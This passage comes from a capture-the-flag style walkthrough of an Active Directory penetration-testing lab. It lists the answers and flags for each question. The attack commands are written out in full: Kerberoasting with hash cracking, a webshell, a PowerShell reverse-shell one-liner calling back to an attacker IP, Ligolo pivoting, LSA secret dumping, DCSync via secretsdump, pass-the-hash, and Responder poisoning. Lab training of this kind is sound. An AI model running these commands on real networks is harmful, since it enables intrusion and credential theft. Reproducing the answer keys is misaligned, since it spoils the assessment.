mssqlsvc |select samaccountname,memberof
The command will look for 'mssqlsvc' with '-Identity' flag active, and will
retrieve his 'samaccountname' and to what objects he is member of:


Now that we have the information we need, and confirmed we indeed can
conduct kerberoasting attack on 'mssqlsvc' – we will use 'Rubeus' tool for the
```bash
exploitation of the TGS – we will use the command:
```
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL
/user:mssqlsvc /nowrap


*_Figure 66.1 — Lab execution and output verification (Page 66)_*


*_Figure 66.2 — Lab execution and output verification (Page 66)_*


*_Figure 66.3 — Lab execution and output verification (Page 66)_*


*_Figure 66.4 — Lab execution and output verification (Page 66)_*


### We use the command

#### Technical Methodology & Exploit Execution:

```bash
hashcat -m 13100 mssqlsvc.txt rockyou.txt
```
*Make sure to remove all spaces and new lines from the hash within the
'mssqlsvc.txt' target file, and make sure -m 13100 is the correct flag value for
kerberoasting hash cracking. *:


*_Figure 67.1 — Lab execution and output verification (Page 67)_*


### we will use the credentials 'wley:transporter@4'

> **Lab Question (Page 68)**: Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc.
>
> **Flag / Answer**: `sapsso`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will ssh login to the target Linux machine (ATTACK01 host).
Then we will use the same tool we used in Linux Kerberoasting section –
'GetUsersSPN' to enumerate accounts within the domain
'FREIGHTLOGISTICS.LOCAL' whom have SPN services registered to them.
The attack will be used by the user 'wley' (whose credentials we already
obtained earlier in this module) from the domain 'INLANEFREIGHT.LOCAL' –
which has trust with the targeted 'FREIGHTLOGISTICS.LOCAL' domain:
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL
INLANEFREIGHT.LOCAL/wley
we will use the credentials 'wley:transporter@4':

In addition to the MSSQLsvc user – we have 'sapsso' user whom has SPN
registered to him.


*_Figure 68.1 — Lab execution and output verification (Page 68)_*


### Once we have the tgs hash – time to hashcat

> **Lab Question (Page 69)**: Crack the TGS and submit the cleartext password as your answer.
>
> **Flag / Answer**: `pabloPICASSO`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the command:
GetUserSPNs.py -request-user sapsso -target-domain
FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
There is a modification in this command from the last version of the command
in the previous question: we added the '-request-user sapsso' flag to get the
TGS ticket of the user 'sapsso'.

Once we have the tgs hash – time to hashcat:
```bash
hashcat -m 13100 sapsso.txt rockyou.txt
```
for rockyou wordlist as always open the link. And as always run the command
on pwnbox and not the target machine. and as always remove from the hash
all spaces and new lines before putting them within the target 'sapsso.txt' file:


*_Figure 69.1 — Lab execution and output verification (Page 69)_*


*_Figure 69.2 — Lab execution and output verification (Page 69)_*


### We will use the command

> **Lab Question (Page 70)**: Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop.
>
> **Flag / Answer**: `burn1ng_d0wn_th3_f0rest!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first we need to determine with what methods we can access DC03,
for what we need to determine the services that are running on it.
We will use the command:
```bash
nmap ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -sV -p 1-4000
```
*the first 4000 ports should suffice. *
And we get this result:

smb port 445 is open – lets use that.
Lets inspect running smb-shares with the command:
```bash
smbclient -L //ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -U
```
"FREIGHTLOGISTICS\sapsso"
we will be prompted for password

Here the obtained credentials 'sapsso:pabloPICASSO' will come in:


*_Figure 70.1 — Lab execution and output verification (Page 70)_*


*_Figure 70.2 — Lab execution and output verification (Page 70)_*


*_Figure 70.3 — Lab execution and output verification (Page 70)_*


### We will take the share 'C$' – the command will be

#### Technical Methodology & Exploit Execution:

get Users\Administrator\Desktop\flag.txt flag.txt
the flag will be downloaded from DC03 to our ATTACK01 machine as 'flag.txt'

Exit the smb server, run
```bash
ls flag.txt
```
on the ATTACK01 machine to confirm download:

And cat the flag:

So we also in this section used the established trust between
INLANEFREIGHT.LOCAL to FREIGHTLOGISTICS.LOCAL to get access to DC03
within FREIGHTLOGISTICS.LOCAL with compromised INLANEFREIGHT.LOCAL.


*_Figure 71.1 — Lab execution and output verification (Page 71)_*


*_Figure 71.2 — Lab execution and output verification (Page 71)_*


*_Figure 71.3 — Lab execution and output verification (Page 71)_*


*_Figure 71.4 — Lab execution and output verification (Page 71)_*


### Additional AD Auditing Techniques

> **Lab Question (Page 72)**: Take some time to experiment with the tools from this section with the spawned target. When done, enter COMPLETE as the answer to this question.
>
> **Flag / Answer**: `COMPLETE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine ('MS01')
Let's first try AdRecon – that can be found on 'C:\Tools':
we can open it with the following powershell command:
.\ADRecon.ps1
Lets run:


Lets observe the output:


*_Figure 72.1 — Lab execution and output verification (Page 72)_*


*_Figure 72.2 — Lab execution and output verification (Page 72)_*


### And open it

#### Technical Methodology & Exploit Execution:

.\PingCastle.exe


Lets run health check


*_Figure 73.1 — Lab execution and output verification (Page 73)_*


*_Figure 73.2 — Lab execution and output verification (Page 73)_*


*_Figure 73.3 — Lab execution and output verification (Page 73)_*


*_Figure 73.4 — Lab execution and output verification (Page 73)_*


### And open the report

```bash
Run and default domain 'INLANEFREIGHT.LOCAL'.
```


And open the report:


*_Figure 74.1 — Lab execution and output verification (Page 74)_*


*_Figure 74.2 — Lab execution and output verification (Page 74)_*


*_Figure 74.3 — Lab execution and output verification (Page 74)_*


*_Figure 74.4 — Lab execution and output verification (Page 74)_*


*_Figure 74.5 — Lab execution and output verification (Page 74)_*


And start to investigate


*_Figure 75.1 — Lab execution and output verification (Page 75)_*


*_Figure 75.2 — Lab execution and output verification (Page 75)_*


*_Figure 75.3 — Lab execution and output verification (Page 75)_*


*_Figure 75.4 — Lab execution and output verification (Page 75)_*


### Capstone: Skills Assessment

> **Lab Question (Page 76)**: Submit the contents of the flag.txt file on the administrator Desktop of the web server
>
> **Flag / Answer**: `JusT_g3tt1ng_st@rt3d!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

at first we are presented with a target machine, which initially we do
know the following information: there is a web server in it, the admin
credentials 'admin:My_W3bsH3ll_P@ssw0rd!', and the url path '/uploads' is
active.
First lets run 'nmap' on the target to determine in which port the web server is
running on, we will use the command:
```bash
nmap <target-IP> -sV -p 1-4000
```


The web server is running on http port 80, on a Windows machine.
We can also observe smb and rcp services running on it.
Anyway lets go in to the web server on the '/uploads' path on the browser:


*_Figure 76.1 — Lab execution and output verification (Page 76)_*


*_Figure 76.2 — Lab execution and output verification (Page 76)_*


### Lets select the former and enter to 'antak.aspx'

We have 2 possible paths – 'antak.aspx' and 'web.config'.
Lets select the former and enter to 'antak.aspx':

We are requested to enter credentials, lets enter the provided admin
credentials and login:
→
We get to a webshell:

and in the bottom of the page input bar with commands:

Lets enter:
```bash
cat C:\Users\Administrator\Desktop\flag.txt
```
and then select 'Encode and Execute':

And run →


*_Figure 77.1 — Lab execution and output verification (Page 77)_*


*_Figure 77.2 — Lab execution and output verification (Page 77)_*


*_Figure 77.3 — Lab execution and output verification (Page 77)_*


*_Figure 77.4 — Lab execution and output verification (Page 77)_*


*_Figure 77.5 — Lab execution and output verification (Page 77)_*


*_Figure 77.6 — Lab execution and output verification (Page 77)_*


### working directory

> **Lab Question (Page 78)**: Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer
>
> **Flag / Answer**: `svc_sql`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will need to bring 'PowerView' to the compromised Windows
machine, and use it to initiate Windows Kerberaosting attack.
First let's explore the webshell – let's start with 'pwd' to determine our present
working directory:

Ok that's nice..  let's see if there are some TOOLS in 'C:\' directory as we always
worked with in this module:

Nope.. no tools
And whatever we do have in this target machine is not enough, we need to
bring in 'PowerView.ps1' to the target machine.
Luckily the webshell provides us the means to upload files from our pwnbox
(attacking machine) to the target machine:


*_Figure 78.1 — Lab execution and output verification (Page 78)_*


*_Figure 78.2 — Lab execution and output verification (Page 78)_*


*_Figure 78.3 — Lab execution and output verification (Page 78)_*


### path ('~')

So, the method will be a. get 'PowerView.ps1' on the pwnbox. b. upload it to
the webshell via the upload option. c. bring it to the pwd path we seen 'C:\
windows\system32\inetsrv' for convenience of use.
So first let's download the PowerView from here to the pwnbox machine:

And for convenience we will download it directly to the pwnbox user's home
path ('~'):

Enter 'Save' to download.

When downloaded – lets confirm download with 'ls PowerView.ps1':

The file exists! Now its time for step b and upload it to the target machine.
For that we first select 'Browse…' to select file:


*_Figure 79.1 — Lab execution and output verification (Page 79)_*


*_Figure 79.2 — Lab execution and output verification (Page 79)_*


*_Figure 79.3 — Lab execution and output verification (Page 79)_*


### Upload the file via selecting 'Upload the File'

#### Technical Methodology & Exploit Execution:

Move-Item -Path "C:\PowerView.ps1" -Destination
"C:\windows\system32\inetsrv\PowerView.ps1" -Force
Then we will confirm file transfer to our desired present working directory path
with the command:
dir | findstr PowerView.ps1


*_Figure 80.1 — Lab execution and output verification (Page 80)_*


*_Figure 80.2 — Lab execution and output verification (Page 80)_*


*_Figure 80.3 — Lab execution and output verification (Page 80)_*


*_Figure 80.4 — Lab execution and output verification (Page 80)_*


*_Figure 80.5 — Lab execution and output verification (Page 80)_*


### I chose the listener-port to be 4447 arbitrary

#### Technical Methodology & Exploit Execution:

```bash
nc -lnvp <listener-port>
```
I chose the listener-port to be 4447 arbitrary:

We will also want to determine our attacking-machine IP with 'ifconfig' (the
correct interface is the one which IP begins with 10 which used by hackthebox
VPNs):

We can also confirm that with web-shell 'ipconfig':

2 interfaces on the target Windows machine – one for the active Directory
network (172.16.6.X), and the other to connect with the pwnbox.


*_Figure 81.1 — Lab execution and output verification (Page 81)_*


*_Figure 81.2 — Lab execution and output verification (Page 81)_*


*_Figure 81.3 — Lab execution and output verification (Page 81)_*


### While listening – on the web-shell enter the command

#### Technical Methodology & Exploit Execution:

$client = New-Object
System.Net.Sockets.TCPClient('10.10.15.166',4447);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i
= $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data =
```bash
(New-Object -TypeName
```
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback
= (iex ". { $data } 2>&1" | Out-String ); $sendback2 =
$sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write(
$sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close
()
*The used IP and port values are hard coded to the command – if required –
change them. *

The command will initiate reverse shell with our listener, we put the command
on the input box

And select 'Encode and Execute':

And we have a shell!
Let's run 'pwd' to determine where we are:

Ok that's good, we are in the same path where our uploaded 'PowerView.ps1'
is.


*_Figure 82.1 — Lab execution and output verification (Page 82)_*


*_Figure 82.2 — Lab execution and output verification (Page 82)_*


*_Figure 82.3 — Lab execution and output verification (Page 82)_*


### brought to this machine

*Now – as it is PowerShell – the commands we run in here will be sea-blue as
```bash
PowerShell commands despite the terminal window being dark-blue.
```
However, make note that all commands from this point forward are used on
the reverse shell terminal, and NOT on the webshell. *
On the new obtained shell – we run the same sequence commands we did on
'Kerberoasting – Windows' section, only with change of parameters:
```bash
Import-Module .\PowerView.ps1
```
$spn = "MSSQLSvc/SQL01.inlanefreight.local:1433"
$serviceAccount = Get-DomainObject -LDAPFilter
"(servicePrincipalName=$spn)"

$serviceAccount | select samAccountName
Just like in the 'Kerberoasting – Windows' section - In this script we are
checking what is the service account is associated with the SPN
'MSSQLSvc/SQL01.inlanefreight.local:1433', using the PowerView Module we
brought to this machine:


*_Figure 83.1 — Lab execution and output verification (Page 83)_*


### proceed to run the following commands on the reverse shell

> **Lab Question (Page 84)**: Crack the account's password. Submit the cleartext value.
>
> **Flag / Answer**: `lucky7`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off in the previous question – we
proceed to run the following commands on the reverse shell:
$user = "svc_sql"

$spnTicket = Get-DomainUser -Identity $user | Get-
DomainSPNTicket -Format Hashcat

$hash = $spnTicket.Hash

```bash
echo $hash
```
*In the 'Kerberoasting – Windows' module equivalent question there was
outputting to a file first, in this instance I skipped the middle man and printed
the TGS hash directly to the terminal:

Now we proceed to move the hash value to the pwnbox attacking machine to a
file called 'svc_sql.txt', removing all spaces and new lines first, And of course,
downloading rockyou wordlist.
And when ready, on pwnbox – we run:
```bash
hashcat -m 13100 svc_sql.txt rockyou.txt
```


*_Figure 84.1 — Lab execution and output verification (Page 84)_*


*_Figure 84.2 — Lab execution and output verification (Page 84)_*


### to send a single ICMP request packet to the target host

> **Lab Question (Page 85)**: Submit the contents of the flag.txt file on the Administrator desktop on MS01
>
> **Flag / Answer**: `spn$_r0ast1ng_on_@n_0p3n_f1re`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing on the obtained reverse shell from the previous questions
– first lets confirm connectivity with 'MS01.inlanefreight.local' – we will use the
command:
ping MS01.inlanefreight.local -n 1
to send a single ICMP request packet to the target host:

*another approach, more thorough method for connectivity check is the
command:
Test-Connection -ComputerName MS01.inlanefreight.local
*

Ok that's good – there is connectivity with the IP of the domain: '172.16.6.50'.
Now we need an active appropriate service to use in order to get the flag.
SMB on port 445 is a good service to check, as we do not have nmap in our
dispasal, lets instead use the command:
Test-NetConnection -ComputerName MS01.inlanefreight.local -
Port 445


SMB port is open! Lets use it.


*_Figure 85.1 — Lab execution and output verification (Page 85)_*


*_Figure 85.2 — Lab execution and output verification (Page 85)_*


#### Technical Methodology & Exploit Execution:

Invoke-ShareFinder -ComputerName MS01.inlanefreight.local


Ok there is indeed file-share called 'C$'.
Now that we know the file-share, we will run the following commands:
# Create the credentials object
$username = "svc_sql"
$password = "lucky7"
$secpasswd = ConvertTo-SecureString $password -AsPlainText -
Force

$credential = New-Object
System.Management.Automation.PSCredential ($username,
$secpasswd)

# Map the administrative share
New-PSDrive -Name "X" -PSProvider "FileSystem" -Root
"\\MS01.inlanefreight.local\C$" -Credential $credential
The first 4 commands will create the credentials object required for the login.
The firth command will map the share of C$ in the target machine:


The path name is X – lets continue with the command


*_Figure 86.1 — Lab execution and output verification (Page 86)_*


*_Figure 86.2 — Lab execution and output verification (Page 86)_*


*_Figure 86.3 — Lab execution and output verification (Page 86)_*


### Then we will finish off with the commands

Get-ChildItem -Path "X:\Users\Administrator\Desktop"
The command will list the contents of the target directory to verify access:

Then we will finish off with the commands:
$flagContent = Get-Content -Path
"X:\Users\Administrator\Desktop\flag.txt"

$flagContent


*_Figure 87.1 — Lab execution and output verification (Page 87)_*


*_Figure 87.2 — Lab execution and output verification (Page 87)_*


> **Lab Question (Page 88)**: Find cleartext credentials for another domain user. Submit the username as your answer.
>
> **Flag / Answer**: `tpetty`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will need to use crackmapexec command that get from the 'MS01'
(172.16.6.50) machine the user names and hashes – and if they user has it in
cleartext password it displays it as cleartext password.
The main problem is – crackmapexec is used from Linux, and we do not have a
direct access from the Linux pwnbox attacking machine, to the target 'MS01'.
*Networking reminder – in this writeup I work on the Linux pwnbox attacking
machine, which has initial access to the target Webserver – which has 2
interfaces, one that can connect to our pwnbox, and another one which serves
as the Active directory internal network (which IP is 172.16.6.100).
Now, in the Active Directory network there is another machine - 'MS01' whose
IP is 192.16.6.50 which in this question is our target machine. *
So, the plan to get the answer for this and the next questions – is using a
pivoting – making the Webserver machine as proxy between the pwnbox and
MS01. We will use a tool called 'Ligolo' for that purpose.
*Before I start explain the solution – this video helped me a lot with
establishing the routing when prior methods didn't work. *
*Also, answer guide assumes reverse shell obtained in the same method used
in the previous questions, but this reverse shell creating link is also
recommended and working for this purpose. *
Now – open on the pwnbox 3 terminals, terminal 1 is to handle the reverse
shell and run commands on the windows webServer machine. terminal 2 is to
handle the pivoting 'ligolo' tool and terminal 3 is to run commands on 'MS01'
when the pivoting is established.
*In terminal one has it is dealing with windows PowerShell commands, its
command will be background-colored with sea-blue, for terminal 2 and 3 as
they deal with Linux commands, they will be background-colored dark-blue
In terminal 1 we have the reverse shell established from previous questions:


*For convenience, I moved from the original 'pwd' to C:\. *
Now lets download the Ligolo tools – we will open the releases on the github
repository, and download both the arrow marked releases – agent for windows
(for the webserver machine), and proxy for Linux (for the pwnbox):

In both cases we download the 'amd' version.


*_Figure 89.1 — Lab execution and output verification (Page 89)_*


*_Figure 89.2 — Lab execution and output verification (Page 89)_*


### In Terminal 2 run 'ls' to confirm download

#### Technical Methodology & Exploit Execution:

```bash
tar -xvf proxy.gz
```


'proxy' is our executable, coming to play in time.
Now, we need to upload 'agent.zip' to the 'webServer' windows machine, as
the zip file is heavy (2.7MB +-), it is too heavy to be uploaded to the webserver
via the 'upload' method that was used to upload the 'PowerView.ps1' – we will
have to use another approach – a temporary python server.
On terminal 2 run the command (on home directory):
```bash
python3 -m http.server 8080
```
to run python http server on port 8080:

We are running server on the pwnbox, and any other device on network
connecting to the server can download files within the pwnbox user home
directory.
And this is precisely what we are going to do, on terminal 1 – run the
command:
```bash
iwr -uri http://10.10.15.166:8080/agent.zip -outfile
```
agent.zip


*_Figure 90.1 — Lab execution and output verification (Page 90)_*


*_Figure 90.2 — Lab execution and output verification (Page 90)_*


*_Figure 90.3 — Lab execution and output verification (Page 90)_*


### Then we run 'ls' again to confirm unzipping

#### Technical Methodology & Exploit Execution:

Expand-Archive -Path ".\agent.zip" -DestinationPath
".\agent"
Then we run 'ls' again to confirm unzipping:


*_Figure 91.1 — Lab execution and output verification (Page 91)_*


*_Figure 91.2 — Lab execution and output verification (Page 91)_*


*_Figure 91.3 — Lab execution and output verification (Page 91)_*


*_Figure 91.4 — Lab execution and output verification (Page 91)_*


### python server)

#### Technical Methodology & Exploit Execution:

.\agent\agent.exe -connect 10.10.15.166:11601 -ignore-cert
The command will run 'agent.exe' (which is within the agent folder unzipped
earlier), to the pwnbox IP and the established listening Ligolo proxy port:


*_Figure 92.1 — Lab execution and output verification (Page 92)_*


*_Figure 92.2 — Lab execution and output verification (Page 92)_*


*_Figure 92.3 — Lab execution and output verification (Page 92)_*


### then we will be asked to select an agent – enter '1'

When done, terminal 1 will be on 'working mode'
And terminal 2 will receive an agent – notifying an agent had joined:

To take control on the agent – we will run on the Ligolo CLI:
session
then we will be asked to select an agent – enter '1':

When done, enter on the CLI:
start
to start the pivot to the active directory network:

At this point we should have connectivity from the pwnbox attacking machine
to every device within the active directory network, including 'MS01' – whose
IP is '172.16.6.50'. we also have terminal 1 running agent.exe, and terminal 2
running the proxy.
Lets open the terminal 3 – and confirm connectivity, sending 3 pings:
ping 172.16.6.50 -c 3


Great! 0% packet loss, we have connection MS01. Now we can run
'crackmapexec' on the target.
First – lets download the crackmapexec.
*Formal download instructions can be found here. *


*_Figure 93.1 — Lab execution and output verification (Page 93)_*


*_Figure 93.2 — Lab execution and output verification (Page 93)_*


*_Figure 93.3 — Lab execution and output verification (Page 93)_*


*_Figure 93.4 — Lab execution and output verification (Page 93)_*


### We will use the sequence of commands

> **Lab Question (Page 94)**: Submit this user's cleartext password.
>
> **Flag / Answer**: `Sup3rS3cur3D0m@inU2eR`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7 --lsa
```
the command will authenticate on the target 'MS01' machine using the
credentials obtained in previous questions, and then will use the flag '--lsa' to
dump Local Security Authority (LSA) secrets from the target machine, which
potentially includes sensitive information such as credentials stored in memory,
cached domain credentials, and other security-related data:

Looking throughout the results – we are looking for a result of a username
which has a cleartext password, going far enough and we will find him:

the user 'tpetty' was found, containing the clear text password (used for next
question as well).

Question: Submit this user's cleartext password.
Answer: Sup3rS3cur3D0m@inU2eR
Method: the last picture in the answer for the question above also contains the
password.


*_Figure 94.1 — Lab execution and output verification (Page 94)_*


*_Figure 94.2 — Lab execution and output verification (Page 94)_*


*_Figure 94.3 — Lab execution and output verification (Page 94)_*


### rights, we will run the commands

> **Lab Question (Page 95)**: What attack can this user perform?
>
> **Flag / Answer**: `DCSync`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

to determine if a user can run DCSync attack – he should have the 3
rights enabled: DS-Replication-Get-Changes-In-Filtered-Set, DS-Replication-Get-
Changes and DS-Replication-Get-Changes-All.
As established, those 3 rights allow replication of sensitive data to a 'simulated'
Domain Controller in order to retrieve the sensitive data there, which is
necessary to perform DCSync attack.
Just like in 'DCSync' section – in order to check if the user 'tpetty' has those
rights, we will run the commands:

```bash
Import-Module .\PowerView.ps1
```

$adunnsid = Convert-NameToSid tpetty

Get-DomainObjectACL -ResolveGUIDs -Identity * | ?
{$_.SecurityIdentifier -eq $adunnsid}
We will run the commands on the Windows reverse shell (on the WebServer
machine), which already has 'PowerView', installed on the machine in previous
questions (reminder, execution will take approximately 10 minutes +-):


DS-Replication-Get-Changes-In-Filtered-Set confirmed.

DS-Replication-Get-Changes confirmed

All 3 required rights for the DCSync attack exist.


*_Figure 95.1 — Lab execution and output verification (Page 95)_*


*_Figure 95.2 — Lab execution and output verification (Page 95)_*


*_Figure 95.3 — Lab execution and output verification (Page 95)_*


*_Figure 95.4 — Lab execution and output verification (Page 95)_*


### reverse shell

> **Lab Question (Page 96)**: Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01
>
> **Flag / Answer**: `r3plicat1on_m@st3r!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing where we left off where pwnbox connection to the active
directory network – we first will determine what is the IP address of this 'DC01'
machine.
Now, for some reason pinging 'DC01.INLANEFREIGHT.LOCAL' did not work for
me from the Linux pwnbox attacker machine, so I pinged it from the windows
reverse shell:

DC01 IP is '172.16.6.3'. let nmap the IP from the linux pwnbox to see what
services are running on it:
```bash
nmap 172.16.6.3 -sV -p 1-4000
```


Ok first we observe that DC01 is the network's DNS server (which can be used
to detect future machine with the command 'nslookup <domain> 172.16.6.3'
and that WILL work from the pwnbox:


*_Figure 96.1 — Lab execution and output verification (Page 96)_*


*_Figure 96.2 — Lab execution and output verification (Page 96)_*


### tpetty:Sup3rS3cur3D0m@inU2eR credentials

#### Technical Methodology & Exploit Execution:

Invoke-ShareFinder -ComputerName DC01.inlanefreight.local


*_Figure 97.1 — Lab execution and output verification (Page 97)_*


*_Figure 97.2 — Lab execution and output verification (Page 97)_*


*_Figure 97.3 — Lab execution and output verification (Page 97)_*


### entries

#### Technical Methodology & Exploit Execution:

ldapsearch -x -H ldap://172.16.6.3 -D
"inlanefreight\\tpetty" -w Sup3rS3cur3D0m@inU2eR -b
"DC=inlanefreight,DC=local"
"(&(objectCategory=person)(memberOf=CN=Domain
Admins,CN=Users,DC=inlanefreight,DC=local))" sAMAccountName
the ldapsearch command (that should be pre-installed on pwnbox) will look for
members in 'Domain Admins' group, lets view the results:


*_Figure 98.1 — Lab execution and output verification (Page 98)_*


*_Figure 98.2 — Lab execution and output verification (Page 98)_*


### privileges is

A single answer: Administrator – the username we will target in order to access
DC01 is 'Administrator'.
But how? Well – in the last question it was established that 'tpetty' can conduct
'DCSync' attack – lets run it – we will run the attack to obtain the admin NTLM
hash.
In the last case we used mimikatz in the attack to obtain the NTLM hash,
however in this question's attempt mimikatz didn't do to well with the
Windows PowerShell CLI, so we will use Linux tools from the pwnbox.
We will use the python tool 'secretsdump' – that should be preinstalled but
just in case – download it here.
The command to run to obtain Administrator NTLM hash with tpetty DCSync
privileges is:
secretsdump.py
INLANEFREIGHT/tpetty:Sup3rS3cur3D0m@inU2eR@172.16.6.3 -just-
dc-user administrator
while using tpetty in credentials separated with ':', targeting Administrator.

We are looking for the marked path – that is the Administrator NTLM hash.
Now, attempt to bruteforce the has with hashcat and rockyou will fail – so
instead we will attempt to login to DC01 SMB server with the hash itself – with
attack called 'pass the hash'.


*_Figure 99.1 — Lab execution and output verification (Page 99)_*


*_Figure 99.2 — Lab execution and output verification (Page 99)_*


### We will use the command

#### Technical Methodology & Exploit Execution:

smbclient.py INLANEFREIGHT/administrator@172.16.6.3 -hashes
:27dedb1dab4d8545c6e1c66fba077da0
where the '27ded...da0' is the Administrator's NTLM hash.

And we are prompted with '#', indicating with granted access,opening SMB CLI.
Lets enter
shares


Ok it seems the C$ share is here.
We will continue with the commands
```bash
use C$
```
get Users\Administrator\Desktop\flag.txt


It seems the flag was downloaded, lets confirm by inspecting the pwnbox
user's home directory:

The flag has successfully download from DC01 SMB server, lets run 'cat
flag.txt':


*_Figure 100.1 — Lab execution and output verification (Page 100)_*


*_Figure 100.2 — Lab execution and output verification (Page 100)_*


*_Figure 100.3 — Lab execution and output verification (Page 100)_*


*_Figure 100.4 — Lab execution and output verification (Page 100)_*


*_Figure 100.5 — Lab execution and output verification (Page 100)_*


### Capstone: Skills Assessment

> **Lab Question (Page 101)**: Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?
>
> **Flag / Answer**: `AB920`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will ssh-login to the Linux machine 'ACADEMY-EA-PAR01-
SA2'.
First – lets determine what are the active hosts on the Active Directory
network, first, we will determine the network's address with the command
route -n


The network address is '172.16.6.0', the interface name is 'ens224' and the
subnet mask is 23 (deduced from 'Genmask).
We will also determine our own IP within the said network with the command:
ifconfig ens224


Now – lets run network scan with the tool 'fping' (full details about the tool are
detailed in the section 'Initial Enumeration of the Domain') – we will use the
command:
fping -asgq 172.16.6.0/23 > alive_hosts.txt


*_Figure 101.1 — Lab execution and output verification (Page 101)_*


*_Figure 101.2 — Lab execution and output verification (Page 101)_*


### run the responder is

We have 4 alive hosts – lets cat the output file to observe them:
```bash
cat alive_hosts.txt
```


So we have 4 devices on the network (in which the .240 is our own 'PAR01-
SA2')
So the username which can be used for initial foothold – has to come from
those devices.
We will run the tool 'Responder' on the interface with the intention of
capturing NTLM hashes from the users (the same method that were used on
the section 'LLMNR/NBT-NS Poisoning - from Linux' from the category 'Sniffing
out a Foothold', where the method is extensively detailed) – the command to
```bash
run the responder is:
sudo responder -I ens224
```
where 'ens224' is our target interface:


*_Figure 102.1 — Lab execution and output verification (Page 102)_*


*_Figure 102.2 — Lab execution and output verification (Page 102)_*


### And after several moments of listening we will get this

And after several moments of listening we will get this:

It seems the device already captured hashes of the user 'AB920', and skipped
To confirm the hash existence – we will open the Responder hashes log,
located at '/usr/share/responder/logs/Responder-Session.log' -  we will grep
for the user 'AB920' with the flag -B 5 (reading 5 lines above the grepped line)
to also capture IP:
```bash
cat /usr/share/responder/logs/Responder-Session.log | grep
```
AB920 -B 5
looking through the data - we can immediately spot the username, including
the IP , the date of capture, and the NTLM hash itself:

Confirming 'AB920' is the user in which we can gain foothold within the target
Active Directory.


*_Figure 103.1 — Lab execution and output verification (Page 103)_*


*_Figure 103.2 — Lab execution and output verification (Page 103)_*


*_Figure 103.3 — Lab execution and output verification (Page 103)_*


*_Figure 103.4 — Lab execution and output verification (Page 103)_*


### Let's run nmap on it to determine what services it runs

> **Lab Question (Page 104)**: What is this user's cleartext password?
>
> **Flag / Answer**: `weasal`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will take the captured hash from the previous question, and store
it in a file called 'ab920.txt' within the pwnbox attacking machine user's home
directory. we will also require the usual rockyou.txt wordlist for the password
brute force cracking on hashcat -m flag of 5600 (for NTLM hashes):
```bash
hashcat -m 5600 ab920.txt rockyou.txt
```


Question: Submit the contents of the C:\flag.txt file on MS01.
Answer: aud1t_gr0up_m3mbersh1ps!
Method: First, lets look for MS01 IP with nslookup:
```bash
nslookup MS01.INLANEFREIGHT.LOCAL 172.16.7.3
```
*To determine why the 172.16.7.3 is the DNS server of the active directory
network – refer to skill assessment 1 section last question. *:

The domain's IP address is '172.16.7.50'.
Let's run nmap on it to determine what services it runs:
```bash
nmap 172.16.7.50 -sV -p 1-7500
```
scanning the first 7500 ports of the machine with detailed information about
the services (-sV).


*_Figure 104.1 — Lab execution and output verification (Page 104)_*


*_Figure 104.2 — Lab execution and output verification (Page 104)_*


### obtained in the previous 2 questions

#### Technical Methodology & Exploit Execution:

'session setup failed: LOGON FAILURE' – while first I thought it is 'access
denied' for the user's credentials apparently it is not it – the smb server is
blocked for external connection requests (same with the rpc) and will not
accept connection.  A workaround has to be found.


*_Figure 105.1 — Lab execution and output verification (Page 105)_*


*_Figure 105.2 — Lab execution and output verification (Page 105)_*


### attacking machine) – we will run the command

#### Technical Methodology & Exploit Execution:

```bash
evil-winrm -i 172.16.7.50 -u AB920 -p weasal
```
where '-i' is the target IP address of MS01, '-u' is the username and '-p' is the
password:

We are presented with a shell to MS01! Lets run the command:
```bash
cat C:\flag.txt
```
within the MS01 shell:

Method 2: We will establish pivoting from the pwnbox to MS01, and the
connect to the machine with RDP – we will use the same Ligolo tool we did in
'Skill Assessment I'.
First – a bit of review of our network – we have the Linux attacking pwnbox
(whose IP is 10.10.15.166), Linux target machine 'PAR01-SA2' – in which we
connected to from the pwnbox via ssh, and serves as our foothold within the
Active Directory network, (whose IP is the in the Active Directory interface –
ens224 is '172.16.7.240', and in the interface connecting it to the pwnbox is
ens192), and the MS01 Windows machine, which belongs to the Active
Directory network with the IP '172.16.7.50'.


*_Figure 106.1 — Lab execution and output verification (Page 106)_*


*_Figure 106.2 — Lab execution and output verification (Page 106)_*


### On the pwnbox we go to Ligolo Releases

#### Technical Methodology & Exploit Execution:

extract the proxy.tar.gz with the command:
```bash
tar -xvf proxy.tar.gz
```


The proxy is ready for use.
Now – we will transfer the agent.tar.gz' from the pwnbox to PAR01-SA2
machine. We will use the same python server technique used in 'Skill
Assessment I':


*_Figure 107.1 — Lab execution and output verification (Page 107)_*


